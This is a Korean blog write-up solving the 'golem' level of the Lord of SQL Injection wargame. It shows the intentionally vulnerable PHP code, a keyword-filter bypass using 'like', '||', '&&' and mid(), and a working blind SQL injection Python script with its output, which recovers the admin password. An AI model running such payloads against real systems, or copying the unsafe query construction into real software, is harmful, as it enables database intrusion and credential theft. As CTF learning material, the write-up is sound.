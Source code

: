 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - golem 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


벌써 11일 째 매일매일 꾸준히 문제를 풀고 있다.  

작심삼일을 반복하던 내가 11일 째라니 기특하다.  

이번 문제도 역시 `Blind SQL Injection` 이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw=''
------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

이번엔 새로운 필터링이 추가되었다.  

`or`, `and` 뿐만 아니라 `substr(`과 `=`가 있어도 `HeHe`를 출력한다.  

`Blind SQL Injection` 문제를 풀 때 여태까지 사용한게 `substr` 함수와 `=` 문자인데, 이 둘을 사용할 수 없게 되었다.  

`substr`의 경우, `mid` 함수를 사용하면 `substr`과 동일하게 사용할 수 있다.  

문제는 `=`인데, 처음에는 `부등호`를 사용하려 했었다.  

근데 생각해보니 삽입해야 하는 쿼리는 `1' or id='admin' and length(pw)=1#`의 형태인데, 뒤의 `length(pw)=1`에는 부등호를 사용한다 쳐도, `id='admin'`에는 부등호를 사용해서 체크하기가 어려워 보였다.  

그래서 `like`을 사용했다.  

`and`는 `&&`로, `or`은 `||`로 사용할 수 있듯, `=` 또한 `like`으로 사용할 수 있다.  

따라서 최종적으로 완성되는 쿼리는 다음과 같은 형태가 된다.  

```
?pw=1' || id like 'admin' && length(pw) like 1#
```

앞서 말했듯, `&`는 `%26`으로, `#`은 `%23`으로 바꾸어 전달해야 한다.  

이를 토대로 파이썬 코드를 구현하면 다음과 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/golem_4b5202cfedd8160e73124b5234235ef5.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' || id like 'admin' %26%26 length(pw) like " + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' || id like 'admin' %26%26 mid(pw, " + str(j) + ", 1) like '" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

실행시킨 결과 아래와 같이 `admin`의 `pw`를 알아낼 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 7
[+] Found 2 : 77
[+] Found 3 : 77D
[+] Found 4 : 77D6
[+] Found 5 : 77D62
[+] Found 6 : 77D629
[+] Found 7 : 77D6290
[+] Found 8 : 77D6290B
[+] Found password :  77D6290B
[+] End
```

이번에도 알파벳 대문자는 소문자로 바꾸어 입력 해 주어야 한다.  

그냥 대문자 건너뛰고 소문자로 찾을걸 그랬나보다.  

```
?pw=77d6290b
```

그럼 아래와 같이 문제를 풀 수 있다.  

```php
----------------------------------------------------------------------------------------
query : select id from prob_golem where id='guest' and pw='77d6290b'
----------------------------------------------------------------------------------------

GOLEM Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

`GOLEM Clear!!`
